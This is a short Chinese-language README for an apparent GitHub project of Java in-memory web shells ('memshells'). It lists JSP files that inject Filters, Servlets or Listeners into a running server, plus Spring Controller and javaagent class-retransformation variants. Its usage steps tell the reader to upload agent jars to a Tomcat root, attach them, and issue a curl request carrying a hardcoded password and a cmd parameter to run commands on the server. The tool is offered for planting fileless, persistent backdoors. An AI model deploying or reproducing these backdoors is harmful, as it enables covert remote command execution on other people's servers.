 # JAVA_memshells
java 内存马系列 实现（Servlets 、组件、Agent）

# java 内存马实现落地
## 1、基于动态添加Servlets组件(Listener、Servlet、Filter)
addfilter.jsp
addHttpServlet.jsp
addServlet.jsp
addListerner.jsp
## 2、基于框架组件，Spring的Controller

## 3、基于javaagent技术运行时加载，instrumentation的redefinessClass和retransformClass来实现对类的重加载或重构
inst.redefinessClass 
inst.retransformClass
### 使用方法
1、Tomcat的根目录中上传：Agent-1.0-SNAPSHOT-jar-with-dependencies.jar、Attach-1.0-SNAPSHOT-jar-with-dependencies.jar

2、java -jar Attach-1.0-SNAPSHOT-jar-with-dependencies.jar

3、curl http://tomcat:port/anypath?passwod=ga0weI&cmd={xx}
